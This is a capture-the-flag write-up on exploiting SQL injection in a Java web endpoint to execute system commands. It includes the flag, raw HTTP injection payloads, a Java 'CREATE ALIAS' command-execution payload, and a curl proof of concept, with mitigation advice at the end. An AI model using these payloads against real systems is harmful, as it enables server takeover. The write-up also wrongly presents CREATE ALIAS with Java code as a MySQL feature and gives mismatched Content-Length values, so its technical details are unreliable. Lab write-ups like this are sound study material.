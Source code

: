 # **Write-Up: Exploiting SQL Injection to Execute Arbitrary Code**

## **Challenge Description**
Pentesting isn't a solomente. Gather your team, create alias, and take control of the world. Java may not be my favorite language, but I always choose coffee every day.

## **FLAG**

CTF{khirna_maydir_ghirna_challenge_impermiable_hbibi}

---

## **Vulnerability Analysis**
### **1. Vulnerable Endpoint**
The endpoint `/api/mola7ada` is vulnerable to SQL injection due to improper handling of user input in the `name` parameter. The backend code directly concatenates user input into the SQL query without proper sanitization or parameterization.

### **2. Exploitable Functionality**
The `CREATE ALIAS` technique allows an attacker to define a custom function in MySQL that can execute arbitrary Java code. By exploiting the SQL injection vulnerability, an attacker can inject a payload to create an alias and execute system commands.

### **3. Prerequisites for Exploitation**
- The MySQL user must have the `CREATE` and `EXECUTE` privileges.
- The MySQL server must support user-defined functions (UDFs).

---

## **Exploitation Steps**

### **Step 1: Identify the Vulnerability**
1. **Test for SQL Injection:**
   Send a payload to the `/api/mola7ada` endpoint to test for SQL injection:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 25

   name=test' OR 1=1; --
   ```

   If the application returns all rows from the `mola7adat` table, SQL injection is confirmed.

2. **Determine the Number of Columns:**
   Use the `ORDER BY` clause to determine the number of columns in the query:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 25

   name=test' ORDER BY 3; --
   ```

   If the application returns a valid response, there are at least 3 columns.

### **Step 2: Exploit the Vulnerability**
1. **Inject a `CREATE ALIAS` Payload:**
   Use the following payload to create an alias that executes arbitrary Java code:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 500

   name=test'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { Process process = Runtime.getRuntime().exec(cmd); java.io.InputStream inputStream = process.getInputStream(); java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream("/app/target/classes/static/hola.html"); byte[] buffer = new byte[1024]; int bytesRead; while ((bytesRead = inputStream.read(buffer)) != -1) { fileOutputStream.write(buffer, 0, bytesRead); } fileOutputStream.close(); inputStream.close(); return "Output written to /app/target/classes/static/hola.html"; }'; --
   ```

   This payload creates an alias `EXECVE` that executes a system command and writes the output to a file.

2. **Execute the Alias:**
   Use the following payload to execute the alias and run a system command:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 50

   name=test'; CALL EXECVE('ls /'); --
   ```

   This payload executes the `ls /` command and writes the output to `/app/target/classes/static/hola.html`.

### **Step 3: Retrieve the Output**
1. **Access the Output File:**
   The output of the command is written to `/app/target/classes/static/hola.html`. Access this file via the web server:
   ```
   http://127.0.0.1:1337/hola.html
   ```

2. **Extract the Flag:**
   If the flag is located in the root directory, the `ls /` command will list it, and the output will be available in `hola.html`.

---

## **Proof of Concept (PoC)**
Here’s a sample PoC using `curl` to exploit the vulnerability:

```bash
# Step 1: Create the alias
curl -X POST \
  http://127.0.0.1:1337/api/mola7ada \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=test'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { Process process = Runtime.getRuntime().exec(cmd); java.io.InputStream inputStream = process.getInputStream(); java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream(\"/app/target/classes/static/hola.html\"); byte[] buffer = new byte[1024]; int bytesRead; while ((bytesRead = inputStream.read(buffer)) != -1) { fileOutputStream.write(buffer, 0, bytesRead); } fileOutputStream.close(); inputStream.close(); return \"Output written to /app/target/classes/static/hola.html\"; }'; --"

# Step 2: Execute the alias
curl -X POST \
  http://127.0.0.1:1337/api/mola7ada \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=test'; CALL EXECVE('ls /'); --"
```

---

## **Mitigation Recommendations**
1. **Use Parameterized Queries:**
   Replace the vulnerable query with a parameterized query to prevent SQL injection:
   ```java
   String query = "SELECT * FROM mola7adat WHERE name = :name";
   List<Object[]> resultList = entityManager.createNativeQuery(query)
                                           .setParameter("name", name)
                                           .getResultList();
   ```

2. **Restrict MySQL Privileges:**
   - Revoke the `CREATE` and `EXECUTE` privileges from the MySQL user:
     ```sql
     REVOKE CREATE, EXECUTE ON *.* FROM 'root'@'%';
     FLUSH PRIVILEGES;
     ```
   - Use a dedicated MySQL user with limited privileges for the application.

3. **Input Validation:**
   Validate the `name` parameter to ensure it contains only allowed characters:
   ```java
   if (!name.matches("[a-zA-Z0-9]+")) {
       return ResponseEntity.status(HttpStatus.BAD_REQUEST).body("Invalid name");
   }
   ```

4. **Error Handling:**
   Avoid exposing detailed error messages to the user. Log errors on the server instead.

---

## **Conclusion**
The SQL injection vulnerability in the `/api/mola7ada` endpoint allowed an attacker to execute arbitrary code on the server using the `CREATE ALIAS` technique. By exploiting this vulnerability, the attacker was able to execute system commands and retrieve sensitive information.

To prevent such vulnerabilities, always use parameterized queries, restrict MySQL privileges, and validate user input. Regularly test your application for security vulnerabilities using tools like OWASP ZAP or Burp Suite.

---

